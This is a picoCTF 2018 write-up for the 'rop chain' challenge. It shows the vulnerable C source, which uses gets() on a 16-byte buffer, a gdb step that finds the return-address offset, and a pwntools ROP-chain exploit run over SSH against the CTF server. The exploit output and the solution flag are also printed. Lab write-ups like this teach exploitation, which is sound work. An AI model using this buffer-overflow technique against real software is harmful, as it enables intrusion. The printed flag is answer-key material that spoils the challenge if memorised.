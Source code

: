 # Problem
Can you exploit the following [program](https://2018shell1.picoctf.com/static/d7b3d809a1a0a71b4d49c6d110977326/rop) and get the flag? You can findi the program in /problems/rop-chain_4_6ba0c7ef5029f471fc2d14a771a8e1b9 on the shell server? [Source](https://2018shell1.picoctf.com/static/d7b3d809a1a0a71b4d49c6d110977326/rop.c).

## Hints:
Try and call the functions in the correct order!

Remember, you can always call main() again!

## Solution:
First we download the files:
```bash
wget https://2018shell1.picoctf.com/static/d7b3d809a1a0a71b4d49c6d110977326/rop
wget https://2018shell1.picoctf.com/static/d7b3d809a1a0a71b4d49c6d110977326/rop.c
chmod +x ./rop
```

Now, we investigate the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;


void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}

```

The goal of this challenge is to teach us [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming).

The conditions required for getting the flag are ```win1 && win2 && arg_check2 == 0xDEADBAAD```.
```win1``` will be set when we call ```win_function1()```, and ```win2``` will be set when we call ```win_function2(0xBAAAAAAD)``` afterwards.

First we need to calculate the offset of the return address in ```vuln()``` (we need to override it with our rop chain), we can use this gdbinit script.
```
run < <(echo AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ0000111122223333444455556666777788889999aaaabbbbccccddddeeee)
```

Lets debug:
```bash
gdb -x ./gdbinit ./rop

Stopped reason: SIGSEGV
0x48484848 in ?? ()
```

We know that ```HHHH``` overrides the return address.


We need to design a proper rop chain, we can use this script:

```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = ''
pw = ''

elf = ELF('./rop')
rop = ROP(elf)

rop.call('win_function1')
rop.call('win_function2', [0xBAAAAAAD])
rop.call('flag', [0xDEADBAAD])

log.info('Generated rop chain:\n{}'.format(rop.dump()))

if debug:
  p = process('./rop')
else:
  s = ssh(host = '2018shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/rop-chain_4_6ba0c7ef5029f471fc2d14a771a8e1b9')

  p = s.process('/problems/rop-chain_4_6ba0c7ef5029f471fc2d14a771a8e1b9/rop')

print p.recvuntil('Enter your input>')

p.sendline('AAAABBBBCCCCDDDDEEEEFFFFGGGG' + str(rop))

print p.recvall()
```

Boom!
```bash
[*] '~/picoCTF-2018/Binary/10-rop_chain-350/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loaded cached gadgets for './rop'
[*] Generated rop chain:
    0x0000:        0x80485cb win_function1()
    0x0004:        0x80483f6 <adjust: ret>
    0x0008:        0x80485d8 win_function2(3131746989)
    0x000c:        0x804840d <adjust: pop ebx; ret>
    0x0010:       0xbaaaaaad arg0
    0x0014:        0x804862b flag(3735927469)
    0x0018:           'gaaa' <pad>
    0x001c:       0xdeadbaad arg0
[+] Connecting to 2018shell1.picoctf.com on port 22: Done
[!] Couldn't check security settings on '2018shell1.picoctf.com'
[*] Working directory: '/problems/rop-chain_4_6ba0c7ef5029f471fc2d14a771a8e1b9'
[+] Starting remote process '/problems/rop-chain_4_6ba0c7ef5029f471fc2d14a771a8e1b9/rop' on 2018shell1.picoctf.com: pid 1291939
Enter your input>
[+] Receiving all data: Done (42B)
[*] Stopped remote process 'rop' on 2018shell1.picoctf.com (pid 1291939)
 picoCTF{rOp_aInT_5o_h4Rd_R1gHt_718e6c5c}
```
Flag: picoCTF{rOp_aInT_5o_h4Rd_R1gHt_718e6c5c}